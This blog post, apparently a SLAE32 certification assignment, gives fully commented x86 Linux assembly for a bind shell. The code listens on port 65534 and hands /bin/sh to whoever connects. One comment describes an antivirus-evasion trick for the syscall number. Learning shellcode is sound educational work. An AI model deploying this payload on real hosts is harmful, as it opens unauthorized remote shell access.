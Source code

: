 ```yaml
---
layout: post
title: SLAE32  Assignment 1 - bindshell
excerpt: asm code and comment for my bindshell
---
```


; name       : bindshell
; author     : Sandro "guly" Zaccarini SLAE-1037
; purpose    : this program will open a listening socket on 0.0.0.0, waits for 1 connection and spawn a shell
;              this code has been written for SLAE32 assignment 1
; references : https://syscalls.kernelgrok.com/ , /usr/include/linux/net.h , man socketcall
; license    : CC-BY-NC-SA
;
; high level flow:
; socket+setsockopt -> bind -> listen -> accept -> dup fd -> spawn /bin//sh

  global _start
  section .text

; reused functions are written on top to save some code in _start routine

; dummy function used to break easily on gdb while debugging, just rets without touching anything
; i used to place a call trap and recompile, while having a "b trap" on ~/.gdbinit
  trap:
ret

  zero:
; zero eax and ebx by xoring against themself
; i don't really need to always zero both, but this code won't be that optimized so i went for the safeness
xor eax,eax
xor ebx,ebx
ret

  socketcall2eax:
; place syscall code for socketcall in eax, which is 0x66, no need to zero because i use mov.
; i'm using add to avoid hardcoded 0x66 call, which could be trapped by some AV, when 0x33 is the call acct and looks harmless to me
mov al,0x33
add al,0x33
ret

  _start:
; ----------------------------------------------------------------------------------------
; purpose     : create a socket
; references  : man socket
; description :
; socketcall is the syscall used to work with socket. i'm going to use this syscall to create, bind, listen, and accept connections.
; the very first thing i have to do, is to create the socket itself. by reading references, i see that she needs 3 registers:
; eax => syscall id 0x66 for socketcall, that will be the same for every socketcall call of course and that's why i created a function on top
; ebx => socket call id, that is 0x1 for socket creation
; ecx => pointer to socket args
;
; man socket shows me that socket's args are:
; domain   => AF_INET because i'm creating a inet socket, and is 0x2
; type     => tcp is referenced as STREAM, that is 0x1
; protocol => unneded here because there is no inner protocol, so i'll use 0x0

; start by zeroing eax,ebx. not really needed because registers are clean, but better safe than sorry
call zero

; then, create ecx because i don't want to use mov, and a zeroed eax is perfect for the purpose
; arg will be pushed in reverse order with no hardcoded address: 0, 1, 2
push eax
inc eax
push eax
inc eax
push eax

; because socketcall needs a pointer, i'm moving esp address to ecx
mov ecx, esp

; prepare eax to hold the socketcall value as discussed before
call socketcall2eax

; because ebx is 0, i can just inc to have it to 1 for socketcall to call socket (pun intended :) )
inc ebx

; do the call and create socket
int 0x80

; because syscall rets to eax, if everything's good, eax will hold socket file descriptor: save it to esi to have it safe for the whole run
mov esi,eax

; ----------------------------------------------------------------------------------------
; purpose     : set SO_REUSEADDR
; references  : man setsockopt , man 7 socket , /usr/include/asm-generic/socket.h
; description :
; both during test and in real life, you have to be sure you can spawn again the shell on the same port whatever happens.
; setsockopt is used to set socket options, i'm using it to set SO_REUSEADDR that let me to spawn the same bindshell twice even in case of bad exit
; eax => syscall id 0x66 for socketcall
; ebx => setsockopt id 0xE taken from linux/net.h
; ecx => sockfd, level, optname, pointer to optval, optlen
;
; asm-generic/socket.h shows that SO_REUSEADDR values is 0x2

; preparing ecx at first, in reverse order of course
; optlen is 1, because i just have a int
push 1
; address of optval here
push esp
; SO_REUSEADDR id is 0x2, push the value
push 2
; SOL_SOCKET will be 1, push again the value
push 1
; push socket file descriptor, already saved to esi
push esi

; place stack pointer in ecx
mov ecx, esp

; put setsockopt id to ebx. because ebx has been zeroed, i can use bl
mov bl,0xE

; prepare eax to hold the socketcall value as discussed
call socketcall2eax

; do the actual call
int 0x80
; i don't care for retcode, going to assume it's ok

; ----------------------------------------------------------------------------------------
; purpose     : bind socket to 0.0.0.0:bindport
; references  : man bind , man 7 ip
; description :
; a socket alone is useless if you don't bind and listen.
; i'm going to bind to 0.0.0.0 because i don't know the reachable ip address of the box. if i wanted to listen on a given address,
; i could've hardcoded it
; listen port is defined in .data section, var name is bindport and could be easily changed
; syscall needs the same args, just socketcall id will change:
; eax => syscall id 0x66 for socketcall
; ebx => bind call id, 0x2 taken from linux/net.h
; ecx => pointer to address struct
; 
; man bind shows me that args are:
; sockfd  => already saved in esi
; address => address struct defined by ip(7)
; addrlen => addrlen is 32bit (0x10)
; 
; man 7 ip shows address struct details, that will be placed in ecx. arguments are:
; family => AF_INET, so 0x2
; port   => held by bindport
; addr   => as said, 0x0 to listen to 0.0.0.0

; because setsockopt worked with registers, let's zero again to start from a known situation
call zero

; push arg in reverse, so i can take advantage of eax being 0x0
; prepare stack pointer to addr struct defined in man 7 ip
; 0 to listen to ANY ADDR
push eax
; push port to bind to, defined in .data. pushed as word
push word bindport
; push AF_INET value as word again
push word 0x2
; get stack pointer to ecx
mov ecx,esp

; push bind arg, again in reverse order
; addrlen is fixed to 16, or 0x10
push byte 0x10
; pointer to addr struct
push ecx
; sockfd, saved before to esi
push esi
; stack pointer to ecx again, to feed bind socketcall
mov ecx,esp

; ebx has been zeroed, inc it twice to have 0x2 for bind()
inc ebx
inc ebx

; same call to have 0x66 to eax and do socketcall
call socketcall2eax

; do the call
int 0x80
; i'm ignoring retcode here too

; ----------------------------------------------------------------------------------------
; purpose     : actual listen on socket
; references  : man listen
; description : having the socket ready, i'm ask the system to listen. listen id, again took from linux/net.h, is 0x4.
; man listen says that i have to feed it with socket fd and backlog value
; eax => syscall id 0x66
; ebx => listen 0x4
; ecx => socket filedescriptor, backlog (will use 1 to limit to 1 connection)

; arg in reverse order to ecx
; because i don't have any register holding 0x1, i just push the word to have backlog set as 0x1
push word 0x1
; and esi to push sockfd
push esi
; feed listen call id. because ebx is 0x2, i could inc ebx twice. i'm using mov to change someway the flow
mov bl, 0x4
; put in ecx esp pointer
mov ecx, esp

; same call to have 0x66 to eax and do socketcall
call socketcall2eax

; do the actual call
int 0x80

; ----------------------------------------------------------------------------------------
; purpose     : accept connection on created socket
; references  : man 2 accept , man 7 ip
; description : having the socket in listen, she has now to accept a connection
; man accept says that i have to feed it with socket fd, pointer to struct addr, and addrlen
; struct addr has already been discussed before, but because addr and port are not needed here i'm just pushing 0x0
; eax => syscall id 0x66
; ebx => accept 0x5
; ecx => socket filedescriptor, pointer to addr, addrlen

; prepare arg for ecx as i did before
; gdb says that edx is 0x0, no surprise because nobody used it. using it to push two 0x0 for addr and port
push edx
push edx
; ending with socket fd
push esi

; stack pointer to ecx for addr struct
mov ecx,esp

; ebx is 0x4 and i need it to be 0x5, one inc will be enough
inc bl

; usual call to have 0x66 to eax and do socketcall
call socketcall2eax

; do the actual call
int 0x80

; as soon as a client connects, eax will hold an id that refer to that client
; save clientid to edi, we need it very soon
; i also could've used dl and al because clientid will be a very small number
mov edi,eax

; ----------------------------------------------------------------------------------------
; purpose     : create fd used by /bin//sh
; references  : man dup2
; description : every shell has three file descriptor: STDIN(0), STDOUT(1), STDERR(2)
; this code will create said fd
; eax => dup2 callid, that is 0x3f got from kernelgrok website
; ebx => clientid
; ecx => newfd id, said file descriptor
;
; i'm going to create them by looping using ecx, to save some instruction. ecx will start at 2, create fd, dec
; as soon as ecx is a negative number (SF is 1), the loop ends


; put 0x2 to cl to start creating STDERR just after dec
; because ecx has been used and it's not 0x0 while edx is null, i'm going to swap ecx and edx before
; i could also used 0x3 and jnz, by having int0x80 after the dec
xchg ecx,edx
mov cl,0x2

; copy socket fd to ebx to feed clientid
mov ebx, edi

; zero eax and start the loop
xor eax,eax
  dup2:
; dup2 call id
mov al,0x3f

; dec ecx to have 2,1,0
int 0x80
dec ecx

; loop until ecx is 0x0, we then have 3 runs: with 2, 1, 0 values
jns dup2

; ----------------------------------------------------------------------------------------
; purpose     : spawn /bin//sh
; references  : man execve
; description : put /bin//sh on the stack, aligned to 8 bytes to prevent 0x00 in the shellcode itself
; and null terminating it by pushing a zeroed register at first
; eax => execve call,0xB
; ebx => pointer to executed string, which will be /bin//sh null terminated
; ecx => args to executed command, that could be 0x0
; edx => pointer to environment, which could be 0x0

; i need to push a null byte to terminate the string, easiest way is to zero a reg and push it but i know ebp and eax should be 0x0 but i want to be sure
call zero
push eax
push 0x68732f2f
push 0x6e69622f
; here the stack will looks like a null terminated /bin/sh:
; /bin//sh\0\0\0\0\0\0\0\0

; and place pointer to ebx
mov ebx,esp

; empty envp to edx
push eax
mov edx,esp

; empty args for my shell
push eax
mov ecx,esp

; execve syscall here, eax is 0x0 so i can work on al
mov al,0xB

; and pop shell
int 0x80

; neat exit because i like it
xor eax,eax
mov al,0x1
int 0x80

  section .data
; 65534 converted in hex (0xFFFE), then little endian
bindport equ 0xFEFF

; This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/
